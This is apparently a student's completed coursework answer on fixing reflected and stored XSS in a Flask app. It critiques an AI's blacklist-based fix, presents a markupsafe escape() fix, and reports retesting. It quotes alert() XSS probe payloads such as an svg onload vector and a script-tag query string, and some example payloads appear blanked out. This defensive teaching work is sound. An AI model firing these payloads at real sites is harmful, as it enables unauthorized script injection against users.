The line `name.replace("<script>", "").replace("</script>", "")` is an **incomplete blacklist** — it only strips the exact literal string `<script>`, so it does nothing against the many other ways to execute JavaScript, e.g. ``, `<svg onload=alert(1)>`, or even a case-mismatched `<ScRiPt>`. It also still returns the value inside raw HTML instead of encoding it, so any tag the blacklist doesn't know about (there are dozens of event-handler vectors) still executes. Worse, this doesn't address stored XSS in `/comments` at all, and it does nothing for the missing `HttpOnly`/`SameSite` cookie flags or CSRF — the AI treated this as a single string-matching problem rather than an output-encoding and cookie-hardening problem.

**3. Correct version:**

```python
from markupsafe import escape
name = request.args.get("name", "world")
html = "<h1>Hello, " + str(escape(name)) + "!</h1>"
```

This is safer because `escape()` converts *every* HTML-significant character (`<`, `>`, `&`, `"`, `'`) into its entity form regardless of which tag or attribute it appears in, so there is no finite list of "bad patterns" to keep up with — a blacklist can only block strings the developer thought to test, while contextual encoding structurally prevents any character from being interpreted as markup. The AI's fix also ignored that the same input is echoed into an HTML context, so encoding — not filtering specific tag names — is the correct category of defense here.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).**

**ANS:** The `/hello` and `/comments` endpoints take text the user types in — a name in the URL, or a comment posted to a form — and paste it directly into the page's HTML without checking what's inside it. Because the browser can't tell the difference between "text the app wrote" and "text the user supplied," if that user input contains a `<script>` tag, the browser just runs it as if it were part of the page's own code, letting anyone who can submit that input run arbitrary JavaScript in another visitor's browser.

**B. Prompt Problem.**

**Prompt used:** *"Fix this Flask route so it is safe from reflected XSS: it currently does `html = "<h1>Hello, " + name + "!</h1>"` where `name` comes from `request.args.get("name")`. Do not use string replacement or a blacklist of tag names — use proper contextual HTML output encoding (e.g. `markupsafe.escape()`) so any character that could form a tag or attribute is neutralized regardless of which specific payload is used. Show the corrected code only."*

**Result:** Re-firing `/hello?name=<script>alert(1)</script>` against the AI's corrected code (using `markupsafe.escape()`) returned the page displaying the literal text `&lt;script&gt;alert(1)&lt;/script&gt;` instead of executing an alert — the exploit failed, confirming the fix works. I also tested the alternate vector `/hello?name=` to confirm the fix wasn't just blocking the literal string `<script>`, and it was correctly escaped as well, showing the encoding-based fix generalizes across payload types rather than matching specific patterns.